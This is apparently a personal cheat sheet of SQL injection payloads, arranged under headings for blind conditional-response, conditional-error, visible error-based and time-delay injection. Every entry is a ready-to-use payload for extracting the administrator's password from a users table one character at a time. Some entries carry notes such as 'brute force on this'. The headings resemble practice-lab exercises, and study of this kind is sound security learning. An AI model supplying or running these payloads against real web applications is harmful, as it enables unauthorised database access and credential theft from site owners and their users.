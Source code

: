 


# Blind SQL injection with conditional responses
- order by 1 --
- and (select 'a' from users limit 1)='a' --  > check if users exist
- and (select 'a' from users where username='administrator' limit 1)='a' --
-  and (select 'a' from users where username='administrator' and length(password)=20 limit 1)='a' --
- and (select substring(password,1,1) from users where username='administrator' )='f' --  >> brute force on this
# Blind SQL injection with conditional errors
- || ( SELECT 'a' from dual where rownum=1) ||'--  > to identify the version (try ctrl+u on burp)
- '|| ( SELECT 'a' from users where rownum=1) ||'--
- ''|| ( SELECT case when length(password)=20 then to_char(1/0) else 'a' end from users where username = 'administrator') ||'--   > if an error returns then the length is 20
- '|| ( SELECT case when substr(password,1,1)='q' then to_char(1/0) else 'a' end from users where username = 'administrator') ||'--   > then brute force
# Visible error-based SQL injection
- ' and cast((select password from users limit 1) as int)=1 --
# Blind SQL injection with time delays
- '||  (SELECT pg_sleep(10)) ||'--
# Blind SQL injection with time delays and information retrieval
- '|| (SELECT CASE WHEN ((select 'a' from users where username='administrator' and length(password)=20)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END)||' --
- '|| (SELECT CASE WHEN ((select substring(password,1,1) from users where username='administrator')='p') THEN pg_sleep(10) ELSE pg_sleep(0) END)||' --  > brute force